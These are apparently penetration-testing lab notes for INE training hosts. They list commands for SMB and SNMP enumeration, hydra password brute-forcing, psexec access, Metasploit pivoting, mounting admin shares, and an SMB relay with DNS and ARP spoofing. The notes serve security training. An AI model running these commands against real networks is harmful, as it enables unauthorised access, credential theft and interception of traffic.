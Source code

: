 ```
nmap -p445 --script smb-protocols 1.1.1.1
--script smb-security-mode
smbclient -L demo.ine.local
nmap -p445 --script smb-enum-users demo.ine.local
nano users.txt
hydra -L users.txt -P ...unix_passwords demo.ine.local smb
psexec.py administrator@demo.ine.local

search psexec

run autoroute -s 1.1.1.0/20
background
search socks
set VERSION 4a
set SRVPORT 9050
proxychains nmap demo1.ine.local -sT -Pn -sV -p 445
sessions 2

migrate -N explorer.exe
shell
net view 1.1.1.1
net use D: \\demo1.ine.local\Documents
net use K: \\demo1.ine.local\K$
dir D:
```

**SNMP enumeration**
- Simple Network Management Protocol
- Typically uses UDP
- Manager and Agent
- Management Information Base (MIB)
- v1, v2c and v3
- Ports 161 and 162
```
nmap -sU -sV -p161 demo.ine.local
nmap -sU -sV -p161 --script snmp-brute demo.ine.local
snmpwalk -v 1 -c public demo.ine.local
nmap -sU -p 161 --script snmp-* demo.ine.local > snmp_info
hydra -l administrator -P ...unix_passwords demo.ine.local smb
```

**SMB relay attack**
Interceptions, capturing authentication, relaying to a legitimate server, gain access.
```
search smb_relay
set SRVHOST 2.2.2.2
set LHOST 2.2.2.2
set SMBHOST 1.1.1.10

echo "2.2.2.2 *.sportsfoo.com" > dns
dnsspoof -i eth1 -f dns

echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth1 -t 1.1.1.5 1.1.1.1
arpspoof -i eth1 -t 1.1.1.1 1.1.1.5
```
